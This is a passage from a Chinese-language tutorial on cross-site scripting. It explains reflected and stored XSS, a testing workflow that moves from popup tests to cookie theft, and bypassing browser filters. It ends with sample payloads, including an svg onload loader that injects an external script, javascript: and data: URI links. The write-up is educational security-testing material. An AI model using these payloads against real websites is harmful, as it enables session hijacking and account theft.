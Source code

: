 #### 第一类：

如果攻击payload存于url中，受害者需要访问特定携带payload的url才会中招，并且payload并不会入库即不会存储持续触发，则可以称此类型的XSS漏洞为反射型XSS
比如网页通过调用当前页面get传入的参数显示到页面中。
这类XSS最好防范，危险系数也相对较低，但存在数量较多，挖掘成本低

大致流程：访问页面进行构造闭合测试，查看源码或者F12使用开发者工具进行修改调试，能弹窗后进行cookie获取测试

值得一提的是：目前浏览器有自带filter过滤，除火狐浏览器，其他浏览器针对一般的XSS攻击payload已经有了自己的防范机制(放弃加载并警告用户)，为了bypass这一机制，需要进行特殊的编码构造，这又是一门学问。

#### 第二类：

如果攻击payload可以入库，并且长期反应在某一页面中，受害者只要浏览了特定页面就会中招，则称此类型为储存型XSS。
这类XSS危害大，挖掘成本较高(需要目标站的提交数据权限)
大致流程:
通过修改个人资料或提交留言行为进行测试，一般提交一串xss sheet 或者自己觉得好用的payload，当弹框成功后再考虑构造进一步攻击。

根据构造闭合代码性质不同(html标签or页面JS代码)，还可分为普通XSS和Dom型XSS。

笔者曾经挖到过CNZZ个人管理页面的DOM储存型XSS，但是属于self-xss，即只有自己能中招的XSS（其他用户访问不到这个页面），如果不能结合CSRF漏洞则比较鸡肋,属于SRC混分行为。

### 三.一些经典测试payload：

##### 笔者最喜欢用的payload是：

```
"><svg/onload=alert(1)//
```
当时拿着这段payload这插插那插插，一天就过去了，玩的不亦乐乎
现在想想，这段短小的payload伴随了我测试XSS漏洞的整个时光~

##### 具体引用外部js的代码姿势是:

```
<svg/onload=s=createElement('script');body.appendChild(s);s.src='js地址'//
```

在火狐浏览器下查看的效果(浏览器解析时会自动加上引号):

![](../pics/svg.png)

##### a标签伪协议执行

```
<a href="javascript:alert(1)" >click me</a>
```

 ##### data引用外域资源

```
<a href="data:text/html;base64,这里跟着base64之后的js代码">click here</a>
```
